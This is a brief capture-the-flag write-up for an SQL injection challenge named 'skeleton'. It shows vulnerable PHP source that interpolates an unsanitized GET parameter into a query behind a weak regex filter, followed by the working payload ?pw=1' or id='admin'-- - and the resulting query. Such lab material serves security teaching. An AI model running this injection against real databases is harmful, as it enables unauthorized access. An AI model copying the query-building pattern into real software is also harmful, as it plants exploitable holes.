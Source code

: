 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

PAYLOAD: ?pw=1' or id='admin'-- -
OUTPUT: select id from prob_skeleton where id='guest' and pw='1' or id='admin'-- -' and 1=0

Skeleton Clear
